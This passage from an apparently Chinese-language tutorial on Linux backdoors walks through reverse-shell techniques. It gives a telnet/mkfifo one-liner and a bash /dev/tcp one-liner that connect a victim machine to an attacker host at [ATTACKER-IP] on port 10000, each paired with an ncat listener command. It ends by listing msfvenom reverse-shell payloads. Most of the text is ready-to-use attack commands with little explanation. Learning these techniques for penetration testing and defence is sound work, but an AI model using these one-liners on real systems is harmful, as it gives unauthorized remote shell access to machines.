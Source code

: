 安装，然而运行上面的命令时报错：

```
lua: (command line):1: module 'socket' not found:
```

### 0x08 反弹shell：telnet

```bash
// Step1: Attacker
ncat -l -p 10000
// Step2: Victim
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|telnet [ATTACKER-IP] 10000 >/tmp/f
```

靶机截图：

![]({{ site.url }}/images/linux-backdoor/bash-reverse-13.png)

攻击者截图：

![]({{ site.url }}/images/linux-backdoor/bash-reverse-12.png)

反弹shell进程在`ps aux`中可以检索到。

**原理**

与`nc`中的原理相同，只是把`nc`换成了`telnet`。

### 0x09 反弹shell：bash-2

```bash
// Step1: Attacker
ncat -l -p 10000
// Step2: Victim
exec 5<>/dev/tcp/[ATTACKER-IP]/10000;cat <&5 | while read line; do $line 2>&5 >&5; done
```

靶机截图：

![]({{ site.url }}/images/linux-backdoor/bash-reverse-15.png)

攻击者截图：

![]({{ site.url }}/images/linux-backdoor/bash-reverse-14.png)

这个反弹shell的管道功能和重定向功能有问题。

**原理**

### 0x0A 反弹shell：msfvenom

`msfvenom`是一款`Payload Generator and Encoder`，在`kali`下可以找到。它能够生成各种语言的反弹shell：

查询反弹shell：

```bash
msfvenom -l payloads 'cmd/unix/reverse'
```
